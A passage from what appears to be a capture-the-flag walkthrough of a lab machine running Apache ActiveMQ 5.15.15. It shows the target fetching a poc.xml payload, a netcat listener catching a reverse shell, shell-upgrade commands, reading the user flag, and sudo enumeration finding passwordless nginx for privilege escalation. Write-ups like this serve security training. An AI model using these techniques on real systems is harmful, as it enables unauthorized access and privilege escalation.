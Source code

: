     
    
    10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -
    10.10.11.243 - - [08/Nov/2023 13:34:37] "GET /poc.xml HTTP/1.1" 200 -
    

And then a shell at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.243 60298
    bash: cannot set terminal process group (880): Inappropriate ioctl for device
    bash: no job control in this shell
    activemq@broker:/opt/apache-activemq-5.15.15/bin$
    

I’ll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
    [1]+  Stopped                 nc -lnvp 9001
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 9001
                 reset
    reset: unknown terminal type unknown
    Terminal type? screen
    activemq@broker:/opt/apache-activemq-5.15.15/bin$ 
    

And grab `user.txt`:

    
    
    activemq@broker:~$ cat user.txt
    61b5553d************************
    

## Shell as root

### Enumeration

The activemq user can run `nginx` as root with no password:

    
    
    activemq@broker:~$ sudo -l
    Matching Defaults entries for activemq on broker:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty
    
    User activemq may run the following commands on broker:
        (ALL : ALL) NOPASSWD: /usr/sbin/nginx
    
